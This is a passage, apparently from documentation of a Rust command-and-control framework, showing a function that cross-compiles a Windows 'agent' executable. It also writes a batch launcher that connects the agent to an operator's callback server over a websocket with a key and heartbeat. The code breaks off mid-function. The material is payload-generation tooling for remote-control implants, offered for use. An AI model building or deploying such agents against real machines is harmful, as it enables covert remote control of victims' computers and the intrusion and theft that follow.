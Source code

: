 
## Payload Generation

### Cross-Compilation Process

The payload generation system creates Windows executables from the agent code:

```rust
async fn generate_payload(&self, output: &str, callback: &str, port: u16, key: &str) -> Result<()> {
    // Check for Windows target
    let target_check = Command::new("rustup")
        .args(&["target", "list", "--installed"])
        .output()?;

    let targets = String::from_utf8_lossy(&target_check.stdout);
    let windows_target = if targets.contains("x86_64-pc-windows-msvc") {
        "x86_64-pc-windows-msvc"
    } else {
        // Install Windows target if not present
        Command::new("rustup")
            .args(&["target", "add", "x86_64-pc-windows-msvc"])
            .status()?;
        "x86_64-pc-windows-msvc"
    };

    // Build agent for Windows
    let build_status = Command::new("cargo")
        .args(&[
            "build",
            "--release",
            "--bin",
            "agent",
            "--target",
            windows_target,
        ])
        .status()?;

    // Copy executable to output path
    let source_path = format!("target/{}/release/agent.exe", windows_target);
    fs::copy(&source_path, output)?;

    // Create batch file for deployment
    let batch_content = format!(
        r#"@echo off
echo Starting C2 Agent...
echo Callback: {}:{}
echo.

REM Run the agent with the specified parameters
"%~dp0{}" --server "ws://{}:{}" --key "{}" --heartbeat 30

echo.
echo Agent finished.
pause
"#,
        callback, port, 
        Path::new(output).file_name().unwrap().to_str().unwrap(),
        callback, port, key
    );

    let batch_path = output.replace(".exe", ".bat");
    fs::write(&batch_path, batch_content)?;

```